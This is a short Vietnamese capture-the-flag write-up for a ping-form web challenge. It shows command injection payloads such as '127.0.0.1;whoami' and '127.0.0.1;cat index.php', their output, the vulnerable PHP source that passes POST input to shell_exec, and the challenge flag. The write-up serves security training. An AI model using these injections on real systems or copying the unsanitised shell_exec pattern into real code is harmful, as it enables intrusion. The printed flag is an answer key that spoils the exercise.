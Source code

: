 Khi nhập vào ip `127.0.0.1`, ta thấy chúng hiển thị giống hệt command ping của linux:

>

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.082 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.058 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.054 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.054/0.064/0.082/0.015 ms
```

Từ đó suy đoán đã có 1 hàm được gọi nhằm execute command line. Nhập  `127.0.0.1;whoami` vào input và gửi, ta thấy suy đoán của mình chính xác:

>

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.076 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.065 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.046 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.046/0.062/0.076/0.014 ms
web-serveur-ch54
```

Do gợi ý nói flag on index.php, ta chỉ việc in file index.php ra là xong, bằng cách input `127.0.0.1;cat index.php`, send request và chúng ta có nội dung php script hiện ra:

```php
<!--?php 
$flag = "S3rv1ceP1n9Sup3rS3cure";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?-->
```

